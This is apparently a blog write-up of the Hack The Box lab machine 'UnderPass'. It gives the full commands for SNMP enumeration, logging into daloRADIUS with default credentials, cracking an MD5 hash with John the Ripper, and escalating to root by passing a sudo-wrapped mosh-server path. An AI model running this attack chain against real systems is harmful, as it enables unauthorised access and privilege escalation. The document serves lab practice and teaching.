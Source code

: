 # UnderPass
SNMP disclosure, Default authentication vulnerability and Mosh

- `10.10.11.48`
- Linux
- Easy

It's been a minute for me, lets take a crack at it! 

Start with [NMap](/blog/tools/nmap) of course.

    nmap -sC -sV -vv 10.10.11.48

Looks like we get responses from the `SSH` port `22` and `HTTP` on port `80`.

    PORT   STATE SERVICE REASON  VERSION
    22/tcp open  ssh     syn-ack OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey:
    |   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
    | ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBK+kvbyNUglQLkP2Bp7QVhfp7EnRWMHVtM7xtxk34WU5s+lYksJ07/lmMpJN/bwey1SVpG0FAgL0C/+2r71XUEo=
    |   256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
    |_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ8XNCLFSIxMNibmm+q7mFtNDYzoGAJ/vDNa6MUjfU91 
    80/tcp open  http    syn-ack Apache httpd 2.4.52 ((Ubuntu))
    | http-methods:
    |_  Supported Methods: POST OPTIONS HEAD GET
    |_http-title: Apache2 Ubuntu Default Page: It works
    |_http-server-header: Apache/2.4.52 (Ubuntu)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


Visiting the index page for the web server at `http://10.10.11.48/` yields the default apache page.

We can try to brute force web directories with and virtual hosts with `gobuster`.

However, it doesn't seem like there's any common routes on this web server... 

The machine doesn't seem to host any `DNS` server. let's do a full port scan.

    nmap -sS -p- -vv underpass.htb

Same thing.

    PORT   STATE SERVICE REASON
    22/tcp open  ssh     syn-ack ttl 63
    80/tcp open  http    syn-ack ttl 63


Hmm... what about `UDP`?

    nmap -sU -vv underpass.htb

Oh! looks like we have `SNMP` related things?

    PORT     STATE         SERVICE REASON
    161/udp  open          snmp    udp-response ttl 63
    1812/udp open|filtered radius  no-response
    1813/udp open|filtered radacct no-response

Okay, down the [SNMP](/blog/notes/snmp) rabbit hole.

found a useful command called [snmpwalk](/blog/tools/snmpwalk) which dumps public `SNMP` records. 

Apparently version `3` of `SNMP` introduces stronger authentication so its always worthwhile to try the weaker versions of the protocol first.

Just for future reference. `SNMP` version `2c` and below uses something like a password to protect the data called a `community string`.

Don't ask me why `2c` is called `2c` instead of `2`. I didn't look into it.

For publicly available data, usually that password is something like `public`. According to
some older sources, it looks like `private` is also a common default community string. 

Running this command will dump all the public records using the `2c` version of the protocol.

    snmpwalk -v 2c -c public underpass.htb

Looks like we found a username, super useful. This looks like something that could even be found in the wild.

    SNMPv2-MIB::sysDescr.0 = STRING: Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
    SNMPv2-MIB::sysObjectID.0 = OID: NET-SNMP-MIB::netSnmpAgentOIDs.10
    DISMAN-EVENT-MIB::sysUpTimeInstance = Timeticks: (4135752) 11:29:17.52
    SNMPv2-MIB::sysContact.0 = STRING: steve@underpass.htb
    SNMPv2-MIB::sysName.0 = STRING: UnDerPass.htb is the only daloradius server in the basin!
    SNMPv2-MIB::sysLocation.0 = STRING: Nevada, U.S.A. but not Vegas


We also found what looks like the name of a service. `daloradius`. 

Doing a quick search online, [that's exactly what it is.](https://github.com/lirantal/daloradius.git).  

Found `/daloradius/app/users/login.php` which will allow me to log into the application.  

Maybe from here we can gather the version of the webserver and look for any CVEs. 

Tried all the default credentials in the README but no luck... 

_~about 2 hours pass~_

Okay, so i was messing around some more and this is why it's important to double check things. 

`/daloradius/app/users/login.php` is for regular users. 

`/daloradius/app/operators/login.php` is for admins. 

![daloradius-admin](/static/media/ctf/htb-daloradius.png)

Anyway... It's important to reset the default password after installing one of these dashboards. Otherwise _anyone_ could just read the GitHub documentation and log in. 

I found one user named `svcMosh` in the users list. The word `Mosh` leads me to believe that the program `Mosh` is involved somehow, but we'll have to see. 

When we go the users page, an `MD5` hash for our user is seemingly right here in the UI. 

`412DD4...` is the first 6 characters of the hash. You can see for yourself what the rest of the chracters are. We're going to save this into `md5sum.txt`. 

    john --wordlist=./rockyou.txt --format=Raw-MD5 ./md5sum.txt

[John the Ripper](https://www.openwall.com/john/) will make short work of this hash with the `rockyou.txt` wordlist. 

Okay... Using those creds with `SSH` doesnt seem to do anything. not with `steve` or `svcmosh`. 

maybe this is just something that will come in handy later? 

...`version 2.2 beta / 03 Jul 2024` so maybe no SQLi like we see on `exploitdb`... 

_~about 2 more hours pass~_

I WAS BEING DUMB. CASE MATTERS! 

`ssh svcMosh@underpass.htb` with the cracked hash gives us a user on the box. 

![dalradius-user-shell](/static/media/ctf/htb-daloradius-user.png)

Yay!

The first thing to do is check if we straight up have root privs for anything, so `sudo -l` which gives us the interesting path of `/usr/bin/mosh-server`. 

    Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

    User svcMosh may run the following commands on localhost:
        (ALL) NOPASSWD: /usr/bin/mosh-server

I will save you the wasted time and effort I made while trying to crack this, but this is kinda sneaky. 

the program `mosh` works by running `mosh-client` to interact with `SSH`, and then running a command through `SSH` to start `mosh-server` on the remote machine. 

the `mosh` command has an argument called `--server` which is _what I thought was_ a strict path, however it's perfectly valid to supply arguments as well. 

Seeing this, there's nothing stopping us from supplying `sudo /usr/bin/mosh-server` for the path. 

    mosh --server="sudo /usr/bin/mosh-server" localhost
    
drops us into a root shell. 

![dalradius-root-shell](/static/media/ctf/htb-daloradius-root.png)

Nice! 

I would say this machine is very easy. I was able to figure it out without any help except for the `SNMP` foothold, but that was minimal. 

_~ Happy Hacking_